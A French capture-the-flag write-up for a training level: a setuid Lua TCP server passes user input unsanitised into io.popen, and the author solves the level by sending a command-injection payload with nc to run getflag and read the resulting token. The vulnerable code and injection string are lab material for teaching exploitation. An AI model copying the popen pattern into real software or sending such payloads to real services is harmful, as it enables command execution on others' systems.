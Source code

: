 # level11

### Observations
##### J'affiche le programme '~/level11.lua':
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

##### Details du programme:
```bash
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
```

Je me rend compte que ce programme est execute par defaut en tant qu'utilisateur 'flag11' grace a la commande:
```sh
ps aux | grep flag11
```

##### Entrees du programme:
```lua
string mot_de_passe
```

##### Fonctionnement:
Le programme est un serveur tcp qui tente de hasher la chaine de caracteres entree par l'utilisateur. \
Il compare ensuite la chaine hashee avec une chaine predefinie pour afficher differents messages inutiles. 

> Le serveur est heberge sur l'addresse ip '127.0.0.1' avec le port '5151'.

> Le serveur est execute en arriere-plan grace a cron par defaut.

##### Conclusions:
La fonction hash a une vulnerabilite qui nous laisse executer du code shell comme nous le voulons. \
Vu que ce programme est execute par l'utilisateur 'flag11' par defaut nous pouvons avoir acces a son flag.

> La ligne suivante est la cause de la vulnerabilite: \
> prog = io.popen("echo "..pass.." | sha1sum", "r")

### Resolution
J'effectue une commande qui permet d'obtenir le resultat de la commande 'getflag' une fois dans le programme. \
Par la suite je redirige la sortie de cette derniere dans un fichier accessible car je ne pouvais pas la voir autrement. \
J'affiche ensuite le contenu de ce fichier.

#### commandes:
```sh
nc 127.0.0.1 5151 <<<'$(getflag >/tmp/OUTPUT)'
cat /tmp/OUTPUT
```

**token :** fa6v5ateaw21peobuub8ipe6s